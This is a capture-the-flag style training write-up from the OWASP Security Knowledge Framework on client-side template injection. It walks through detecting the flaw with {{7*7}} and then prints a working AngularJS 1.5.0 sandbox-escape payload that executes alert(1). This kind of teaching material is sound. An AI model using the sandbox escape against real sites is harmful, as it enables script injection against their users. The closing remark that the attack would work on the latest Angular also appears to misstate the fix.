 # KBID 111 - Client Side Template Injection 


## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csti 
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti  
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](.gitbook/assets/csti-1.png) 

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```html
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try! 

{% hint style="info" %}We are going to use the same payload of the XSS lab{% endhint %}

```html
"><script>alert('XSS')</script>
```
Unfortunately the alert does not trigger :(

![](.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3 

{% hint style="warning" %}How do we get XSS?{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result. 

![](.gitbook/assets/csti-3.png)

{% hint style="success" %}Bingo!!{% endhint %}

## Exploitation 

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers. 

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit: 

* break the sanitizer
* escape the sandbox 
* forge a working payload 

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular. 

#### Step 1 

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```
We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2 

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```
We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute  JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes"%}
{% embed url="https://docs.angularjs.org/guide/security"%}


